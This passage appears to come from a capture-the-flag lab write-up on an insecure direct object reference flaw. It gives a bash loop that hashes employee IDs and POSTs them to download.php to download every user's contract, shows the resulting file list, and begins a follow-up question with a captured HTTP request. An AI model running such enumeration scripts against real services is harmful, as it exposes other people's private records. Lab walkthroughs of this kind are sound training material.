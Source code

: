 Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

Code: bash

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:


```shell-session
smoothment@htb[/htb]$ bash ./exploit.sh
smoothment@htb[/htb]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217155044.png)

We can see the following request:

```http
GET /download.php?contract=MQ%3D%3D HTTP/1.1

Host: 94.237.59.190:52218

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

Referer: http://94.237.59.190:52218/contracts.php

Upgrade-Insecure-Requests: 1

Priority: u=0, i


```